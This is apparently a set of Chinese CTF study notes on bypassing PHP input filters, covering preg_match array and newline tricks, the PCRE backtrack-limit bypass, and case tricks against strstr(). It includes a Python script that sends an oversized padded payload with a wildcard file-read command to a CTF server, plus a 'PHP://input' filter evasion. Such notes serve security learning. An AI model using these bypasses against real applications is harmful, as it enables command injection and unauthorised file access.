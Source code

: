 ## 数组绕过

当传入数组时，preg_match函数将会返回false

##  \\ n和 %0a 绕过

正则中的 **.** 不会匹配换行符，而在非多行模式下，`$`似乎会忽略在句尾的`%0a`

```
str=\nflag

str=flag%0a
```

## 回溯法绕过

总结一下就是利用通配符**`.* .+`**可以匹配任何字符的能吞吐的最大数量，PHP为了防止正则表达式的拒绝服务攻击，给pcre设定了一个回溯次数上限，我们按照最大的限制一百万条即可

[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

```
import requests
url="http://ctf.qwq.cc:11683/"
a='a'*1000010

data={"target":"but how"+a,
      "code":"more /fla?"}
req=requests.post(url,data=data)
print(req.text)

数组绕过
```

## 大小写绕过

当没标出忽略大小写绕过时，可以尝试大小写绕过

**`strstr()`**

因为strstr()函数对大小写敏感，也就是字符串中必须要出现"php://"之类才会生效，page=PHP://input之类的大写的字母是就可以绕过strstr()函数


